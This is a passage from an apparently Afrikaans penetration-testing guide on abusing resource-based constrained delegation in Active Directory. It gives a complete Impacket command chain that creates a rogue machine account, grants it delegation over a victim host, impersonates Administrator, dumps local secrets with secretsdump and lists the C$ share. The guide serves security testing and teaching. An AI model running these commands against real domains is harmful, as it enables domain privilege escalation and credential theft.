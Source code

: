 > [!CAUTION]
> Let op dat gebruikers 'n attribuut het genaamd "**Kan nie gedelegeer word nie**". As 'n gebruiker hierdie attribuut op Waar het, sal jy nie in staat wees om hom na te volg nie. Hierdie eienskap kan binne bloodhound gesien word.

### Linux gereedskap: end-to-end RBCD met Impacket (2024+)

As jy vanaf Linux werk, kan jy die volle RBCD-ketting uitvoer met die amptelike Impacket-gereedskap:
```bash
# 1) Create attacker-controlled machine account (respects MachineAccountQuota)
impacket-addcomputer -computer-name 'FAKE01$' -computer-pass 'P@ss123' -dc-ip 192.168.56.10 'domain.local/jdoe:Summer2025!'

# 2) Grant RBCD on the target computer to FAKE01$
#    -action write appends/sets the security descriptor for msDS-AllowedToActOnBehalfOfOtherIdentity
impacket-rbcd -delegate-to 'VICTIM$' -delegate-from 'FAKE01$' -dc-ip 192.168.56.10 -action write 'domain.local/jdoe:Summer2025!'

# 3) Request an impersonation ticket (S4U2Self+S4U2Proxy) for a privileged user against the victim service
impacket-getST -spn cifs/victim.domain.local -impersonate Administrator -dc-ip 192.168.56.10 'domain.local/FAKE01$:P@ss123'

# 4) Use the ticket (ccache) against the target service
export KRB5CCNAME=$(pwd)/Administrator.ccache
# Example: dump local secrets via Kerberos (no NTLM)
impacket-secretsdump -k -no-pass Administrator@victim.domain.local
```
Notes
- As LDAP-handtekening/LDAPS afgedwing word, gebruik `impacket-rbcd -use-ldaps ...`.
- Verkies AES-sleutels; baie moderne domeine beperk RC4. Impacket en Rubeus ondersteun albei AES-slegs vloei.
- Impacket kan die `sname` ("AnySPN") vir sommige gereedskap herskryf, maar verkry die korrekte SPN wanneer moontlik (bv. CIFS/LDAP/HTTP/HOST/MSSQLSvc).

### Toegang

Die laaste opdraglyn sal die **volledige S4U-aanval uitvoer en die TGS** van Administrator na die slagoffer-gasheer in **geheue** inspuit.\
In hierdie voorbeeld is 'n TGS vir die **CIFS** diens van Administrator aangevra, so jy sal in staat wees om toegang te verkry tot **C$**:
```bash
ls \\victim.domain.local\C$
```
### Misbruik verskillende dienskaartjies

Leer meer oor die [**beskikbare dienskaartjies hier**](silver-ticket.md#available-services).

## Opname, oudit en skoonmaak
